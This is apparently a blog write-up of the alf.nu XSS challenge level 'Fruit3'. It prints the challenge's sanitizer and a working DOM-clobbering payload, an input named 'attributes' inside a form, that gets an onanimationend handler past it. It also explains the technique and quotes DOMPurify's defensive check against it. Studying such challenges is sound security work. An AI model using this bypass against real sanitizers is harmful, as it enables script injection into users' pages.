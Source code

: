 ```yaml
---
layout: post
title:  "alf.nu XSS challenges Write-ups level18 to level29 (part two)"
date:   2020-10-19 21:46:23 +0800
categories: jekyll update
---
```

# alf.nu XSS challenges Write-ups level18 to level29 (part two)

## Fruit3
### code
```javascript
function escape(s) {
  var div = document.implementation.createHTMLDocument().createElement('div');
  div.innerHTML = s;
  function f(n) {
    if (/script/i.test(n.tagName)) n.parentNode.removeChild(n);
    for (var i=0; i<n.attributes.length; i++) {
      var name = n.attributes[i].name;
      if (name !== 'class') { n.removeAttribute(name); i--; }
    }
  }
  [].map.call(div.querySelectorAll('*'), f);
  return div.innerHTML;
}
```
### solution
```javascript
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(1)"><input id=attributes></form>
```
### background info
这个XSS主要的技术是dom clobbering. 参考https://portswigger.net/web-security/dom-based/dom-clobbering.DOM clobbering不仅可以利用dom element来控制window scope的变量, 还可以用form元素的子元素input来污染form scope的变量. 

题中的escape函数遍历了n.attributes. 答案POC中的form元素的属性"attributes"就被子元素的的input污染了.

在理解这个原理后, 找一个合适的POC就可以了. 参考https://portswigger.net/web-security/cross-site-scripting/cheat-sheet . 注意本题iframe中autofocus是不能执行的.

dom clobbering对于XSS的sanitizer例如dompurify是一个切实的问题.dompurify是这么解决的

```javascript
 if (
      typeof elm.nodeName !== 'string' ||
      typeof elm.textContent !== 'string' ||
      typeof elm.removeChild !== 'function' ||
      !(elm.attributes instanceof NamedNodeMap) ||
      typeof elm.removeAttribute !== 'function' ||
      typeof elm.setAttribute !== 'function' ||
      typeof elm.namespaceURI !== 'string'
    ) {
      return true;
    }
```

也就是在对逐个元素进行检查的时候, 先检查是否被clobber,再进行sanity check.